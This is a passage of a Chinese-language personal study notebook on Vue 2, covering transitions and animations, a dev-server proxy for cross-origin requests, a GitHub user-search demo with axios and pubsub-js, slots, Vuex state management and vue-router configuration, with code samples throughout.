}
</style>
```

这里还是使用的事件总线

> **App.vue**

```js
// 更新一个todo
        updateTodo(id,title) {
            this.todos.forEach((todo) => {
                if (todo.id === id) {
                    todo.title = title
                }
            })
        },

        ...

        // 然后在mounted()中执行
        this.$bus.$on('updateTodo',this.updateTodo)
```

就实现了编辑功能了

### 动画效果

#### transition标签

使用````````<transition>```````标签包裹住要执行动画的内容

```js
<template>
    <div>
        <button @click="isShow = !isShow">显示/隐藏</button>
        <transition name="hello" appear>
            <h1 v-show="isShow">Hello</h1>
        </transition>
    </div>
</template>

<script>
export default {
    name: 'Test',
    data() {
        return {
            isShow: true,
        }
    },

}
</script>

<style scoped>
h1 {
    background-color: pink;
}

.hello-enter-active {
    animation: zzmr 1s linear;
}

.hello-leave-active {
    animation: zzmr 1s linear reverse;
}

@keyframes zzmr {
    from {
        transform: translateX(-100%);
    }

    to {
        transform: translateX(0px);
    }
}
</style>
```

#### 过度实现

上一个是通过动画实现,这个通过过度实现

```js
<template>
    <div>
        <button @click="isShow = !isShow">显示/隐藏</button>
        <transition name="hello" appear>
            <h1 v-show="isShow">Hello</h1>
        </transition>
    </div>
</template>

<script>
export default {
    name: 'Test',
    data() {
        return {
            isShow: true,
        }
    },

}
</script>

<style scoped>
h1 {
    background-color: pink;
    /* transition: 0.5s linear; */
}

/* .hello-enter-active {
}

.hello-leave-active {
} */

/* 进入的起点 */
.hello-enter,
.hello-leave-to {
    transform: translateX(-100%)
}

/* 进入的终点 */
.hello-enter-to,
.hello-leave {
    transform: translateX(0)
}

.hello-enter-active,
.hello-leave-active {
    transition: 0.5s linear;
}

/* 离开的起点 */
/* .hello-leave {
    transform: translateX(0)
} */

/* 离开的终点 */
/* .hello-leave-to {
    transform: translateX(-100%)
} */
</style>
```

#### 多个元素过度

要使用transition-group标签,然后每个child都要有自己的key

```js
        <transition-group name="hello" appear>
            <h1 v-show="isShow" key="1">Hello</h1>
            <h1 v-show="!isShow" key="2">zzmr</h1>
        </transition-group>
```

#### 集成第三方动画

搞了个乌龙,animate.css我装成animate了
[animate.css](https://www.npmjs.com/package/animate.css)
安装上:``npm install animate.css --save``
然后就可以引入使用了

```js
// 引入
import 'animate.css'
...

<transition-group appear 
        name="animate__animated animate__bounce"
        enter-active-class="animate__swing"
        leave-active-class="animate__backOutUp"
        >
            <h1 v-show="isShow" key="1">Hello</h1>
            <h1 v-show="!isShow" key="2">zzmr</h1>
        </transition-group>
```

有很多很多的样式,但是由于官网不知道为啥打不开
所以,就用了老师说的这几个

#### Vue封装的过渡与动画-总结

*又到了喜闻乐见的总结环节*

1. 作用:在插入,更新或移除DOM元素时,在合适的时候给元素添加样式类名
2. 图示:

<!--  -->


3. 写法
    1. 准备好样式
        - 元素进入的样式
            1. v-enter: 进入的起点
            2. v-enter-active: 进入的过程中
            3. v-enter-to: 进入的终点
        - 元素离开的样式
            1. v-leave: 离开的起点
            2. v-leave-active: 离开的过程中
            3. v-leave-to: 离开的终点
    2. 使用transition包裹要过度的元素,并配置name属性
    3. 备注: 若有多个元素需要过度,则需要使用transition-group,且每个元素都要指定key值

这里正好把TodoList案例给加一些动画
效果还可以

> **MyList.vue**

```js
<template>
    <ul class="todo-main">
        <transition-group name="todo" appear>
            <MyItem v-for="todoObj in todos" :key="todoObj.id" :todo="todoObj"></MyItem>
        </transition-group>
    </ul>
</template>

<script>
import MyItem from './MyItem.vue'
export default {
    name: 'MyList',
    components: {
        MyItem
    },
    props: ['todos']

}
</script>
<style scoped>
/*main*/
.todo-main {
    margin-left: 0px;
    border: 1px solid #ddd;
    border-radius: 2px;
    padding: 0px;
}

.todo-empty {
    height: 40px;
    line-height: 40px;
    border: 1px solid #ddd;
    border-radius: 2px;
    padding-left: 5px;
    margin-top: 10px;
}

.todo-enter-active {
    animation: zzmr 1s linear;
}

.todo-leave-active {
    animation: zzmr 0.5s linear reverse;
}

@keyframes zzmr {
    from {
        transform: translateX(-100%);
    }

    to {
        transform: translateX(0px);
    }
}
</style>
```

## 使用Vue发送Ajax请求

终于到这了

### 使用脚手架解决跨域问题

代理服务器解决跨域问题
就是设置一台代理服务器,然后前端跟代理服务器直接进行通信,代理服务器的端口号是和前端一样的,然后给代理服务器配置目标的url,让代理服务器给目标服务器进行通信

> **方法一**
> 在vue.config.js中添加如下配置

```js
devServer: {
    proxy: 'http://localhost:5000'  //开启代理服务器(方式一)
}
```

说明:

1. 优点:配置简单,请求资源时直接发给前端(8080)即可
2. 缺点:不能配置多个代理,不能灵活的控制请求是否走代理
3. 工作方式:若按照上述配置代理,当请求了前端不存在的资源时,那么请求会转发给服务器(优先匹配前端资源)

> **方法二**
> 编写vue.config.js配置具体代理规则,还是在**devServer**中

```js
proxy: {
      '/zzmr': {
        target: 'http://localhost:5000',
        pathRewrite: { '^/zzmr': '' },
        ws: true,  // 用于支持websocket 
        changeOrigin: true // true就表示会将端口号改为目标的端口号
      },
      '/demo': {
        target: 'http://localhost:5001',
        pathRewrite: { '^/demo': '' },
        ws: true,  // 用于支持websocket 
        changeOrigin: true // true就表示会将端口号改为目标的端口号
      },
    }
```

说明:

1. 优点: 可以配置多个代理,且可以灵活的控制请求是否走代理
2. 缺点: 配置略微繁琐,请求资源时必须加前缀

> 测试代码 App.vue

```js
<template>
  <div>
    <button @click="getStudents">获取学生信息</button>
    <button @click="getCars">获取汽车信息</button>
  </div>
</template>

<script>

import axios from "axios"

export default {
  name: 'App',
  methods: {
    getStudents() {
      axios.get('http://localhost:8080/zzmr/students').then(
        response => {
          console.log('请求成功了', response.data)
        },
        error => {
          console.log('请求失败了', error.message)
        }
      )
    },
    getCars() {
      axios.get('http://localhost:8080/demo/cars').then(
        response => {
          console.log('请求成功了', response.data)
        },
        error => {
          console.log('请求失败了', error.message)
        }
      )
    }
  }
}
</script>
```

### github案例-静态组件

老师给的那个url获取的图片已经没了
所以用我自己的吧,我自己的favicon.ico


这个案例还挺有意思,可以搜索github里的用户

代码放着吧

> main.js

```js
// 引入Vue
import Vue from "vue"
// 引入app组件
import App from './App'

// 关闭Vue的生产提示
Vue.config.productionTip = false

// 创建vm
const vm = new Vue({
    el: '#app',
    render: h => h(App),
    beforeCreate() {
        Vue.prototype.$bus = this
    }
})
```

> **App.vue**

```js
<template>
  <div class="container">
    <Search></Search>
    <List></List>
  </div>
</template>

<script>

import Search from "./components/Search.vue"
import List from "./components/List.vue"

export default {
  name: 'App',
  methods: {

  },
  components: {
    List, Search
  }
}
</script>

<style>

</style>
```

> **List.vue**

```js
<template>
    <div class="row">
        <!-- 展示用户列表 -->
        <div v-show="info.users.length" class="card" v-for="user of info.users" :key="user.login">
            <a :href="user.html_url" target="_blank">
                
            </a>
            <p class="card-text">{{ user.login }}</p>
        </div>
        <!-- 展示欢迎词 -->
        <h1 v-show="info.isFirst">欢迎使用</h1>
        <!-- 展示加载中 -->
        <h1 v-show="info.isLoading">Loading</h1>
        <!-- 展示错误信息 -->
        <h1 v-show="info.errMsg">{{ info.errMsg }}</h1>
    </div>
</template>

<script>

import pubsub from "pubsub-js"

export default {
    name: 'List',
    data() {
        return {
            info: {
                isFirst: true,
                isLoading: false,
                errMsg: '',
                users: []
            }
        }
    },
    mounted() {
        // 使用全局事件总线实现
        /* this.$bus.$on('updateListData', (dataObj) => {
            // 将dataObj中的所有属性给赋值给info,没有的属性还保持info的值
            this.info = { ...this.info, ...dataObj }
        }) */
        this.pubId = pubsub.subscribe('updateListData', (msgName, dataObj) => {
            this.info = { ...this.info, ...dataObj }
        })
    }
}
</script>

<style scoped>
.album {
    min-height: 50rem;
    /* Can be removed; just added for demo purposes */
    padding-top: 3rem;
    padding-bottom: 3rem;
    background-color: #f7f7f7;
}

.card {
    float: left;
    width: 33.333%;
    padding: .75rem;
    margin-bottom: 2rem;
    border: 1px solid #efefef;
    text-align: center;
}

.card>img {
    margin-bottom: .75rem;
    border-radius: 100px;
}

.card-text {
    font-size: 85%;
}
</style>
```

> **Search.vue**

```js
<template>
    <section class="jumbotron">
        <h3 class="jumbotron-heading">Search Github Users</h3>
        <div>
            <input type="text" placeholder="enter the name you search" v-model="keyWord"
                @keyup.enter="searchUsers" /> <button @click="searchUsers">Search</button>
        </div>
    </section>
</template>

<script>

import axios from "axios"
import pubsub from "pubsub-js"

export default {
    name: 'Search',
    data() {
        return {
            keyWord: ''
        }
    },
    methods: {
        // 使用全局事件总线实现
        /* searchUsers() {
            // 请求前更新List的数据
            this.$bus.$emit('updateListData', { isFirst: false, isLoading: true, errMsg: '', users: [] })
            // 发送请求
            axios.get(`https://api.github.com/search/users?q=${this.keyWord}`).then(response => {
                // 使用全局事件总线,发送数据
                // 请求成功后更新List数据
                this.$bus.$emit('updateListData', { isLoading: false, errMsg: '', users: response.data.items })
            }, error => {
                // 请求失败后更新List数据
                console.log('请求失败了', error.message)
                this.$bus.$emit('updateListData', { isLoading: false, errMsg: error.message, users: [] })
            })
        } */

        // 使用消息订阅与发布实现
        searchUsers() {
            // 请求前更新List的数据
            // this.$bus.$emit('updateListData', { isFirst: false, isLoading: true, errMsg: '', users: [] })
            pubsub.publish('updateListData', { isFirst: false, isLoading: true, errMsg: '', users: [] })

            // 发送请求
            axios.get(`https://api.github.com/search/users?q=${this.keyWord}`).then(response => {
                // 使用全局事件总线,发送数据
                // 请求成功后更新List数据
                // this.$bus.$emit('updateListData', { isLoading: false, errMsg: '', users: response.data.items })
                pubsub.publish('updateListData', { isLoading: false, errMsg: '', users: response.data.items })
            }, error => {
                // 请求失败后更新List数据
                console.log('请求失败了', error.message)
                // this.$bus.$emit('updateListData', { isLoading: false, errMsg: error.message, users: [] })
                pubsub.publish('updateListData',{ isLoading: false, errMsg: error.message, users: [] })
            })
        }

    }
}
</script>

<style>

</style>
```

### vue-resouces

安装:``npm i vue-resource``

使用:

```js

// 引入 vue-resource
import vueResource from 'vue-resource'
// 使用插件
Vue.use(vueResource)
...
        searchUsers() {
            // 请求前更新List的数据
            // this.$bus.$emit('updateListData', { isFirst: false, isLoading: true, errMsg: '', users: [] })
            pubsub.publish('updateListData', { isFirst: false, isLoading: true, errMsg: '', users: [] })

            // 发送请求
            this.$http.get(`https://api.github.com/search/users?q=${this.keyWord}`).then(response => {
                // 使用全局事件总线,发送数据
                // 请求成功后更新List数据
                // this.$bus.$emit('updateListData', { isLoading: false, errMsg: '', users: response.data.items })
                pubsub.publish('updateListData', { isLoading: false, errMsg: '', users: response.data.items })
            }, error => {
                // 请求失败后更新List数据
                console.log('请求失败了', error.message)
                // this.$bus.$emit('updateListData', { isLoading: false, errMsg: error.message, users: [] })
                pubsub.publish('updateListData',{ isLoading: false, errMsg: error.message, users: [] })
            })
        }

```

如上代码,就是把axios换成this.$http,用法和axios一摸一样

### 插槽

再给图床上传一张大的头像

<!--  -->

还行,没啥难的

1. 作用：让父组件可以向子组件指定位置插入html结构，也是一种组件间通信的方式，适用于 父组件 ===> 子组件。
2. 分类：默认插槽、具名插槽、作用域插槽
3. 使用方式：

   1. 默认插槽：

   ```js
     父组件中：
             <Category>
                <div>html结构1</div>
             </Category>
     子组件中：
             <template>
                 <div>
                    <!-- 定义插槽 -->
                    <slot>插槽默认内容...</slot>
                 </div>
             </template>
   ```

   2. 具名插槽：

   ```js
     父组件中：
             <Category>
                 <template slot="center">
                   <div>html结构1</div>
                 </template>

                 <template v-slot:footer>
                    <div>html结构2</div>
                 </template>
             </Category>
     子组件中：
             <template>
                 <div>
                    <!-- 定义插槽 -->
                    <slot name="center">插槽默认内容...</slot>
                    <slot name="footer">插槽默认内容...</slot>
                 </div>
             </template>
   ```

   3. 作用域插槽：

      1. 理解：`<span style="color:red">`数据在组件的自身，但根据数据生成的结构需要组件的使用者来决定。（games数据在Category组件中，但使用数据所遍历出来的结构由App组件决定）
      2. 具体编码：

      ```js
       父组件中：
       		<Category>
       			<template scope="scopeData">
       				<!-- 生成的是ul列表 -->
       				<ul>
       					<li v-for="g in scopeData.games" :key="g">{{g}}</li>
       				</ul>
       			</template>
       		</Category>

       		<Category>
       			<template slot-scope="scopeData">
       				<!-- 生成的是h4标题 -->
       				<h4 v-for="g in scopeData.games" :key="g">{{g}}</h4>
       			</template>
       		</Category>
       子组件中：
               <template>
                   <div>
                       <slot :games="games"></slot>
                   </div>
               </template>

               <script>
                   export default {
                       name:'Category',
                       props:['title'],
                       //数据在子组件自身
                       data() {
                           return {
                               games:['红色警戒','穿越火线','劲舞团','超级玛丽']
                           }
                       },
                   }
               </script>
      ```

## vuex

### vuex简介

1. 概念: 专门在Vue中实现集中式状态(数据)管理的一个Vue插件,对Vue应用中多个组件的共享状态进行集中式的管理(读/写),也是一种组件间通信的方式,且适用于任意组件间的通信
2. 什么时候使用vuex?

   1. 多个组件依赖于同一状态
   2. 来自不同组件的因为需要变更同一状态

### 求和案例-vue版

> **Count.vue**

```js
<template>
    <div>
        <h1>当前求和为: {{ sum }}</h1>
        <select v-model.number="n">
            <option value="1">1</option>
            <option value="2">2</option>
            <option value="3">3</option>
        </select>
        <button @click="increment">+</button>
        <button @click="decrement">-</button>
        <button @click="incrementOdd">当前求和为奇数再加</button>
        <button @click="incrementWait">等一等再加</button>
    </div>
</template>

<script>
export default {
    name: 'Count',
    data() {
        return {
            n: 1, // 用户选择的数据
            sum: 0 // 当前的和
        }
    },
    methods: {
        increment() {
            this.sum += this.n
        },
        decrement() {
            this.sum -= this.n
        },
        incrementOdd() {
            if (this.sum % 2) {
                this.sum += this.n
            }
        },
        incrementWait(){
            setTimeout(()=>{
                this.sum += this.n
            },500)
        }
    }

}
</script>

<style>
button {
    margin-left: 5px;
}
</style>
```

### vuex工作原理

一张图:


### 安装及搭建vuex环境

执行命令:``npm i vuex@3``
现在vuex已经更新到4了,适配vue3,而vue2只能使用vuex3

搭建环境:

1. 在src下创建文件 ``src/store/index.js``

```js
//引入Vue核心库
import Vue from 'vue'
//引入Vuex
import Vuex from 'vuex'
//应用Vuex插件
Vue.use(Vuex)

//准备actions对象——响应组件中用户的动作
const actions = {}
//准备mutations对象——修改state中的数据
const mutations = {}
//准备state对象——保存具体的数据
const state = {}

//创建并暴露store
export default new Vuex.Store({
	actions,
	mutations,
	state
})
```

2. 在main.js中创建vm时传入store配置项

```js
......
//引入store
import store from './store'
......

//创建vm
new Vue({
	el:'#app',
	render: h => h(App),
	store
})
```

### 基本使用

Count.vue

```js
<template>
    <div>
        <h1>当前求和为: {{ $store.state.sum }}</h1>
        <select v-model.number="n">
            <option value="1">1</option>
            <option value="2">2</option>
            <option value="3">3</option>
        </select>
        <button @click="increment">+</button>
        <button @click="decrement">-</button>
        <button @click="incrementOdd">当前求和为奇数再加</button>
        <button @click="incrementWait">等一等再加</button>
    </div>
</template>

<script>
export default {
    name: 'Count',
    data() {
        return {
            n: 1, // 用户选择的数据
        }
    },
    methods: {
        // 下面的加和减就是直接与mutation进行交互
        increment() {
            this.$store.commit('JIA', this.n)
        },
        decrement() {
            this.$store.commit('JIAN', this.n)
        },
        incrementOdd() {
            this.$store.dispatch('jiaOdd', this.n)
        },
        incrementWait() {
            this.$store.dispatch('jiaWait', this.n)
        }
    }

}
</script>

<style>
button {
    margin-left: 5px;
}
</style>
```

> **index.js**

```js
// 该文件用于创建Vuex中核心-store

// 引入Vuex
import Vuex from 'vuex'

// 引入Vue
import Vue from 'vue'

//  使用vuex
Vue.use(Vuex)


// 准备actions  用于响应组件中的动作
const actions = {
    // 下面这两个jia和jian,没有必要使用,所以可以直接让vc和mutaition通信
    /* jia(context, value) {
        // console.log('action 中的jia被调用了', context, value)
        context.commit('JIA', value)
    },
    jian(context, value) {
        context.commit('JIAN', value)
    }, */

    jiaOdd(context, value) {
        if (context.state.sum % 2) {
            context.commit('JIA', value)
        }
        // 模拟一下dispatch
        /* console.log('actions中的jiaOdd被调用了', context)
        console.log('处理了一些事情')
        context.dispatch('demo1', value) */

    },

    /* demo1(context, value) {
        console.log('处理一些事情--demo1')
        context.dispatch('demo2', value)
    },
    demo2(context, value) {
        if (context.state.sum % 2) {
            context.commit('JIA', value)
        }
    }, */
    // 可以在这里处理业务逻辑,发送ajax请求
    jiaWait(context, value) {
        setTimeout(() => {
            context.commit('JIA', value)
        }, 500);
    }
}

// 准备mutations  用于操作数据(state)
const mutations = {
    JIA(state, value) {
        state.sum += value
    },
    JIAN(state, value) {
        state.sum -= value
    },

}

// 准备state  用于存储数据
const state = {
    sum: 0 // 当前的和

}


// 创建并暴露store
export default new Vuex.Store({
    actions,
    mutations,
    state
})
```

- **组件中读取vuex中的数据: ``$store.state.sum``**
- **组件中修改vuex中的数据: ``$store.dispatch('action中的方法名',数据)``或 ``$store.commit('mutation中的方法名',数据)``**
- **若没有网络请求或者其他业务逻辑,组件中可以越过actions,即不屑dispatch,直接写commit**

### _getter配置项

1. 概念:当state中的数据需要进行加工后再使用,可以使用getters加工
2. 在store(index).js中追加getters配置

```js
// 定义一个getters-用于将state中的数据进行加工
const getters = {
    bigSum(state) {
        return state.sum * 10
    }
}

// 创建并暴露store
export default new Vuex.Store({
    actions,
    mutations,
    state,
    getters // 添加getters配置项
})
```

3. 组件中读取数据 ``$store.getters.bigSum``

### 四个map方法的使用

> 1. mapState方法:用于帮助我们映射state中的数据为计算属性

```js
computed: {

    // 借助mapState生成计算属性,sum,school,subject(对象写法)
    ...mapState([sum:'sum',school:'school',subject:'subject'])

    // 借助mapState生成计算属性,sum,school,subject(数组写法)
    ...mapState(['sum', 'school', 'subject']),

    // 上面可以代替:  其实就是省去了写this.$store.state.xxx,省去了写一个计算属性的步骤
    sum() {
        return this.$store.state.sum
    },
    school() {
        return this.$store.state.school
    },
    subject() {
        return this.$store.state.subject
    },
}
```

> 2. mapGetters方法: 用于帮助我们映射getters中的数据为计算属性(使用方法和mapState类似,或者说一摸一样)

```js
        // 自己写
        bigSum() {
            return this.$store.getters.bigSum
        },

        // 借助mapGetter从getter中获取数据 数组写法
        ...mapGetters(['bigSum']),

        // 对象写法
        ...mapGetters({bigSum:'bigSum'})
```

> 3. mapActions方法: 用于帮助我们生成与actions对话的方法,即包含 ``$store.dispatch(xxx)的函数``

```js
methods :{
    // 借助mapActions生成对应的方法,方法中会调用dispatch去联系actions
    ...mapActions({ incrementOdd: 'jiaOdd', incrementWait: 'jiaWait' })

    // 数组同mapMutations,不建议使用,我的建议, 因为还要把方法名改为数组的属性值
    ...mapActions(['jiaOdd','jiaWait'])
    // 代替下面的代码
    incrementOdd() {
        this.$store.dispatch('jiaOdd', this.n)
        },
    incrementWait() {
        this.$store.dispatch('jiaWait', this.n)
    }
}
```

> 4. mapMutations方法: 用于帮助我们生成与mutations对话的方法,即:包含``$store.commit(xxx)```的函数

```js
    methods: {
        // 下面的加和减就是直接与mutation进行交互
        /* increment() {
            this.$store.commit('JIA', this.n)
        },
        decrement() {
            this.$store.commit('JIAN', this.n)
        }, */

        // 借助mapMutations生成对应的方法,方法中会调用commit去联系Mutations,要在方法中写()传参
        ...mapMutations({ increment: 'JIA', decrement: 'JIAN' }),

        // 数组写法,但是这么写的话,那么方法名也必须为JIA/JIAN
        // ...mapMutations(['JIA', 'JIAN'])
    }
```

**备注: mapActions与mapMutations使用时,若需要传递参数需要,在模板中绑定事件传递好参数,否则参数时事件对象**

### vuex模块化编码

1. 目的：让代码更好维护，让多种数据分类更加明确。
2. 修改 ``store.js``

   ```javascript
   const countAbout = {
     namespaced:true,//开启命名空间
     state:{x:1},
     mutations: { ... },
     actions: { ... },
     getters: {
       bigSum(state){
          return state.sum * 10
       }
     }
   }

   const personAbout = {
     namespaced:true,//开启命名空间
     state:{ ... },
     mutations: { ... },
     actions: { ... }
   }

   const store = new Vuex.Store({
     modules: {
       countAbout,
       personAbout
     }
   })
   ```
3. 开启命名空间后，组件中读取state数据：

   ```js
   //方式一：自己直接读取
   this.$store.state.personAbout.list
   //方式二：借助mapState读取：
   ...mapState('countAbout',['sum','school','subject']),
   ```
4. 开启命名空间后，组件中读取getters数据：

   ```js
   //方式一：自己直接读取
   this.$store.getters['personAbout/firstPersonName']
   //方式二：借助mapGetters读取：
   ...mapGetters('countAbout',['bigSum'])
   ```
5. 开启命名空间后，组件中调用dispatch

   ```js
   //方式一：自己直接dispatch
   this.$store.dispatch('personAbout/addPersonWang',person)
   //方式二：借助mapActions：
   ...mapActions('countAbout',{incrementOdd:'jiaOdd',incrementWait:'jiaWait'})
   ```
6. 开启命名空间后，组件中调用commit

   ```js
   //方式一：自己直接commit
   this.$store.commit('personAbout/ADD_PERSON',person)
   //方式二：借助mapMutations：
   ...mapMutations('countAbout',{increment:'JIA',decrement:'JIAN'}),
   ```

## 路由

### 路由简介

**vue-router**
vue的一个插件库,专门用来实现SPA应用

> SPA

1. 单页Web应用(single page web application ,SPA)
2. 整个应用**只有一个完整的页面**
3. 点击页面中的导航链接**不会刷新**页面,只会做页面的**局部更新**
4. 数据需要通过ajax请求获取

---


**路由的理解**

>什么是路由?
1. 路由就是一组key-value的对应关系
2. 多个路由,需要经过路由器管理

>路由分类

1. 后端路由
    - 理解: value是function,用于处理客户端提交的请求
    - 工作过程: 服务器接收到一个请求时,根据请求路径找到匹配的函数来处理请求,返回响应数据
2. 前端路由
    - 理解: value是component,用于展示页面内容
    - 工作过程: 当浏览器的路劲改变时,对应的组件就会显示

### 路由基本使用

安装:```npm i vue-router@3```
router3版本对应vue2,现在是4版本了,对应vue3,所以要装3版本的

实现如图的功能
<!--  -->


应用插件,还是引入后直接user即可
>看main.js
```js
// 引入Vue
import Vue from "vue"
// 引入app组件
import App from './App'

// 引入vue-router
import VueRouter from "vue-router"

// 引入自己写的路由器
import router from './router'

// 应用插件
Vue.use(VueRouter)

// 关闭Vue的生产提示
Vue.config.productionTip = false


// 创建vm
const vm = new Vue({
    el: '#app',
    render: h => h(App),
    router: router
})
```

>看index.js(router目录下的)
```js
// 该文件专门用于创建整个应用的路由器
import VueRouter from "vue-router";

// 引入Home和About组件
import About from '../components/About'
import Home from '../components/Home'

// 创建并暴露一个路由器
export default new VueRouter({
    routes: [
        {
            path: '/about',
            component: About
        },
        {
            path: '/home',
            component: Home
        }
    ],
})
```

>看App.vue
```js
<template>
  <div>
    <div class="row">
      <div class="col-xs-offset-2 col-xs-8">
        <div class="page-header">
          <h2>Vue Router Demo</h2>
        </div>
      </div>
    </div>
    <div class="row">
      <div class="col-xs-2 col-xs-offset-2">
        <div class="list-group">
          <!-- 原始html中,使用a标签实现页面跳转 -->
          <!-- <a class="list-group-item active" href="./about.html">About</a>
          <a class="list-group-item" href="./home.html">Home</a> -->

          <!-- Vue中借助router-link标签实现路由的切换 -->
          <router-link active-class="active" class="list-group-item" to="/about">About</router-link>
          <router-link active-class="active" class="list-group-item" to="/home">Home</router-link>

        </div>
      </div>
      <div class="col-xs-6">
        <div class="panel">
          <div class="panel-body">
            <!-- 指定组件的呈现位置 -->
            <router-view></router-view>
          </div>
        </div>
      </div>
    </div>
  </div>
</template>

<script>


export default {
  name: 'App',
  methods: {

  },
  components: {

  },
  mounted() {
  }
}

</script>

<style scoped>

</style>
```

>还有两个组件:
```js
// Home.vue
<template>
    <h2>我是Home的内容</h2>
</template>

<script>
export default {
    name: 'Home',
}
</script>

<style>

</style>

// About.vue
<template>
            <h2>我是About的内容</h2>
</template>

<script>
export default {
    name: 'About'
}
</script>

<style>

</style>
```


>**总结**
1. 安装vue-router，命令：```npm i vue-router```

2. 应用插件：```Vue.use(VueRouter)```

3. 编写router配置项:

   ```js
   //引入VueRouter
   import VueRouter from 'vue-router'
   //引入Luyou 组件
   import About from '../components/About'
   import Home from '../components/Home'
   
   //创建router实例对象，去管理一组一组的路由规则
   const router = new VueRouter({
   	routes:[
   		{
   			path:'/about',
   			component:About
   		},
   		{
   			path:'/home',
   			component:Home
   		}
   	]
   })
   
   //暴露router
   export default router
   ```

4. 实现切换（active-class可配置高亮样式）

   ```js
    <router-link active-class="active" to="/about">About</router-link>
   ```

5. 指定展示位置

   ```js
    <router-view></router-view>
   ```

### 注意事项

- 路由组件通常存放在pages文件夹,一般组件通常存放在components文件夹
- 通过切换,"隐藏了路由组件",默认是被销毁掉的,需要的时候再去挂载
- 每个组件都有自己的```$route```属性,里面存储着自己的路由信息
- 整个应用只有一个router,可以通过组件的```$router```属性获取到


### 嵌套路由

1. 配置路由规则,使用children配置项
```js
routes: [
        {
            path: '/about',
            component: About
        },
        {
            path: '/home',
            component: Home,
            children: [
                {
                    // 子路由不加斜杠了
                    path: 'news',
                    component: News
                },
                {
                    path: 'message',
                    component: Message
                },
            ]
        },

    ],
```

2. 跳转-要写完整路径
```js 
<router-link active-class="active" class="list-group-item" to="/home/news">News</router-link>
```


### 路由的query参数
1. 传递参数
```js
        <li v-for="msg in messageList" :key="msg.id">
                <!-- 跳转路由并携带query参数,to的字符串写法 -->
                <!-- <router-link
                    :to="`/home/message/detail?id=${msg.id}&title=${msg.title}`">{{ msg.title }}</router-link> -->
                <!-- to的对象写法 -->
                <router-link :to="{
                    path: '/home/message/detail',
                    query: {
                        id: msg.id,
                        title: msg.title,
                    }
                }">
                    {{ msg.title }}
                </router-link>
        </li>
```
2. 接收参数
```$route.query.xxx```


### 命名路由

1. 作用: 可以简化路由的跳转

2. 如何使用
    1. 给路由命名:
    ```js
    routes: [
        {
            // 命名为guanyu
            name: 'guanyu',
            path: '/about',
            component: About
        },
        {
            path: '/home',
            component: Home,
            children: [
                {
                    // 子路由不加斜杠了
                    path: 'news',
                    component: News
                },
                {
                    path: 'message',
                    component: Message,
                    children: [
                        {
                            // 命名为xiangqing
                            name: 'xiangqing',
                            path: 'detail',
                            component: Detail
                        }
                    ]
                },
            ]
        },

    ],
    ```
    2. 简化跳转:
    ```js
    <router-link :to="{
                    // path: '/home/message/detail',
                    name: 'xiangqing',
                    query: {
                        id: msg.id,
                        title: msg.title,
                    }
                }">
                    {{ msg.title }}
    </router-link>

    // 但有时候,简化未必是简化:
    <router-link active-class="active" class="list-group-item" to="/about">About</router-link>
    <router-link active-class="active" class="list-group-item" :to="{ name: 'guanyu' }">About</router-link>
    ```

### params参数

1. 配置路由,声明接收params参数:
```js
                {
                    path: 'message',
                    component: Message,
                    children: [
                        {
                            name: 'xiangqing',
                            path: 'detail/:id/:title',  // 占位符
                            component: Detail
                        }
                    ]
                },
```

2. 传递参数
```html
                <!-- 跳转路由并携带params参数,to的字符串写法 -->
                <router-link :to="`/home/message/detail/${msg.id}/${msg.title}`">
                    {{ msg.title }}
                </router-link>
                <!-- 携带params参数并使用to的对象写法 -->
                <router-link :to="{

                    // 注意,如果使用params,就不能使用path,必须使用name

                    // path: '/home/message/detail',
                    name: 'xiangqing',
                    params: {
                        id: msg.id,
                        title: msg.title,
                    }
                }">
                    {{ msg.title }}
                </router-link>
```

>特别注意: 路由携带params参数时,若使用to的对象写法,不能使用path配置项,必须使用name配置

3. 接收参数:```$route.params.xxx```


### 路由的props配置

作用: 让路由组件更加方便的收到并使用参数

```js
        {
            name: 'xiangqing',
            path: 'detail',
            component: Detail,

            // props的第一种写法-对象写法,该对象中的所有key:value,都会以props的形式传递给Detail组件
            props: {
                a: 1, b: 'hello',
            }

            // 第二种写法,若布尔值为真,就会把该路由组件收到的所有params参数,以props形式传给Detail组件
            props:true


            // props的第三种写法,值为函数
            props($route) {
                return { id: $route.query.id, title: $route.query.title }
            },
            // 简写
            /* props({query}) {
                return { id: query.id, title: query.title }
            } */

        }
```

接收的地方还是正常的接收,和原来一样

### router-link的replace属性

1. 作用： 控制路由跳转时操作浏览器历史记录的模式
2. 浏览器的历史记录有两种写入方式,分别为push和replace,push是追加历史记录,replace是替换当前记录,路由跳转时候默认为push
3. 如何开启replace模式:```<router-link replace ... >News</router-link>


### 编程式路由导航

什么是编程式路由导航?就是不借助```router-link```标签的路由导航,让路由跳转更加灵活

具体实现:
```js
methods: {
        pushShow(msg) {
            this.$router.push({
                // name: 'xiangqing',
                path: '/home/message/detail',
                query: {
                    id: msg.id,
                    title: msg.title,
                }
            })
        },
        replaceShow(msg) {
            this.$router.replace({
                path: '/home/message/detail',
                query: {
                    id: msg.id,
                    title: msg.title,
                }
            })

        }
    }

        // 还有另外三个
        forward(){
            this.$router.forward()
        },
        back(){
            this.$router.back()
        },
        test(){
            this.$router.go(-2) // 根据传入的参数进行前进或者后退
        }
```

### 缓存路由组件

